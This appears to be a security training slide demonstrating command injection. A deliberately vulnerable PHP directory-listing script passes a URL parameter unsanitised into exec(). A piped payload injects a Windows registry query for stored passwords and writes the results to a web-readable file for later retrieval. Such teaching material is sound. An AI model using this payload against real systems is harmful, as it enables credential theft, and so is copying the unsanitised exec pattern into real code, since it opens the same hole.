

# Command Injection - Example
Want to pull everything in the Windows registry that mentions a password?  This command will do that.
reg query HKLM /f password /t REG_SZ /s
It takes a long time, so it will probably timeout but we can fix that by using the “>” character to output it to a file.  Like so:
https://127.0.0.1/showdir.php?filter=*.txt|reg%20query%20HKLM%20/f%20password%20/t%20REG_SZ%20/s%20%3E%20regdata.txt
Then just pick up the resulting data at our leisure:
https://127.0.0.1/regdata.txt

<?php
printf ("Contents of the current directory<br><br>");
$input = isset($_GET["filter"])?$_GET["filter"]:".";
exec("dir ".$input,$output);
foreach ($output as $line) {
     printf("%s<br>",$line);
}
?>